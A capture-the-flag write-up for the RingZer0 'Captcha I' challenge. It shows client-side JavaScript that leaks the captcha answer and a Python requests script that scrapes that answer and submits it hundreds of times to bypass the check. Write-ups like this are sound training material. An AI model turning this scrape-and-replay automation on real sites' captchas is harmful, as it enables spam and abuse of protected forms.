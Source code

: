 # Captcha I

### Author

Synne-R

### Description

No description
 
## Solution
 
Opening the challenge page and navigating to the Captcha I section of the page we saw that the objective was solving correctly the captcha 1000 times in a row. After looking around in the page we realized that the captcha content was validated locally and the correct value was in plaintext in a script tag:
```
function doIt(){
	var A = document.getElementById('captcha-form').value; 
		if (A == "hiyee"){
			document.forms["Form1"].submit();
		}
	else {
		alert("BAD Captcha");
	}
}
```
Hence, we wrote a simple script that solves the challenge leaving for us the last tries:
```
import requests as rq
import re

#s = rq.Session()

headers = {
    'Referer':'http://challenges.ringzer0team.com:10138/form1.php',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36',
    'Origin': 'http://challenges.ringzer0team.com:10138/'
    }

cookies = {'PHPSESSID':'REDACTED'}

for i in range(997):

    url = 'http://challenges.ringzer0team.com:10138/form1.php'
    r = rq.get(url, cookies=cookies, headers=headers)
    r1 = rq.get('http://challenges.ringzer0team.com:10138/captcha/captchabroken.php?new', cookies=cookies, headers=headers)

    txt = r.text
    token = re.findall(r'A == "(.*?)"', txt)[0]

    data = {'captcha': token}
    r = rq.post('http://challenges.ringzer0team.com:10138/captcha1.php', data, cookies=cookies, headers=headers, allow_redirects=True)
    res = r.text.strip()
    print(res[res.find('You now have'):])
```
